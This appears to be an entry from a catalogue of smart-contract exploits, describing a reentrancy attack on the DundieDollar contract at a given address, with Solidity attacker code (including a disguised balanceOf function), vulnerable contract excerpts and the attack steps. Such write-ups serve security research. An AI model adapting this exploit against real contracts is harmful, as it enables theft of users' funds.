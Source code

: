 #########
Attack 08
#########

**Contract Name**

DundieDollar

**Contract Address**

0x1ff6f142ebdce220d8dd85eb31dcb92a47690846

**Transaction Count**

1

**Invovled Ethers**

0.1 Ethers

**Length of the Call Chain**

2 external function, 2 internal funciton

**Victim Function**

``CashOut``

**Attack Mechanisim**

Attack code:
::

    contract Attack is MifflinToken {
        address victim;
        address market;
        constructor() payable {}

        function setVictim(address _vic, address _market) {
            victim = _vic
            market = _market
        }

        function prepareAttack() {
            market.call(bytes4(keccak256("setToken(uint8, address)")), 1, this);
        }

        function balanceOf(MifflinToken token) public {   // Disguised attack function
            victim.call.value(1 eth)(bytes4(keccak256("contribution(uint256)")), 10);
        }

        function() payable{
            p.CashOut(1 eth);
        }

        function getvalue() returns (uint) {
            return this.balance;
        }
    }

Attacked code:
::

    contract MifflinToken is Owned, TokenERC20 {
        ...
        function contribution(uint256 amount)internal returns(int highlow){
            owner.transfer(msg.value);
            totalContribution += msg.value;

            if (amount > highestContribution) {
                uint256 oneper = buyPrice * 99 / 100; // lower by 1%*
                uint256 fullper = buyPrice *  highestContribution / amount; // lower by how much you beat the prior contribution
                if(fullper > oneper) buyPrice = fullper;
                else buyPrice = oneper;
                highestContribution = amount;
                // give reward
                MifflinMarket(exchange).highContributionAward(msg.sender);
                return 1;
            } else if(amount < lowestContribution){
                MifflinMarket(exchange).lowContributionAward(msg.sender);
                lowestContribution = amount;
                return -1;
            } else return 0;
        }

        ...
    }

    contract MifflinMarket is Owned {
        ...
        modifier onlyOwnerOrigin{
            require(tx.origin == owner);
            _;
        }

        function setToken(uint8 tid,address addy) public onlyOwnerOrigin { // Only add tokens that were created by exchange owner
            tokenIds[tid] = addy;
        }

        function getRewardToken() public view returns(MifflinToken){
            return getTokenById(rewardTokenId);
        }

        function getTokenById(uint8 id) public view returns(MifflinToken){
            require(tokenIds[id] > 0);
            return MifflinToken(tokenIds[id]);
        }

        function highContributionAward(address to) public onlyTokens {
            MifflinToken reward = getRewardToken();
            //dont throw an error if there are no more tokens
            if(reward.balanceOf(reward) > 0){
                reward.give(to, 1);
            }
        }
        ...
    }
    ...

In this case, the key condition defenses reentrancy attack is ``reward.balanceOf(reward) > 0`` in function ``highContributionAward``. However, ``reward`` can be easily tainted. It inherits value from ``tokenIds[id]``, which can also be easily taited by any access.

**Attack.** The attacker call ``setVictim`` function to specify the address to attack. Then attacker call ``prepareAttack``function to taint variable. Finally attacker call ``balanceOf`` to start attack.